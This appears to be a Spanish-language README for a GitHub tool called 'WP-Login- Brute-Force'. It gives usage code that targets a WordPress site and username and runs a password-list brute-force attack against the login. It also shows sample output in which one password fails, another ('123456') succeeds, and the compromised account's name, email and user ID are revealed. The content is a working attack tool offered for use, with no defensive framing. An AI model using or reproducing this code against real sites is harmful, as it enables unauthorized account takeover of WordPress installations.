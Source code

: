 # WP-Login- Brute-Force


# Se Crea una Instancia WordPressBruteForce
sitio_objetivo = WordPressBruteForce(wp_domain='example.com', wp_username='username')

"El nombre de usuario debe ser identificado con anterioridad,
el nombre de dominio debe incluir http:// o https://"

# Realiza un ataque de fuerza bruta
sitio_objetivo.brute_force_attack('password.txt')

"El archivo password debe contener una lista de potenciales contraseñas,
no debe llevar comas, y puede ser tan grande como se desee"

RESULTADO EJEMPLO:

Contraseña para "usuario1" Incorrecta.<br>
Autenticación -> "usuario2" | Password: "123456"<br>
Nombre de usuario: usuario2<br>
Nombre: Usuario<br>
Apellido: 2<br>
Correo electrónico: admin@example.com<br><br>
ID de usuario: 1<br>
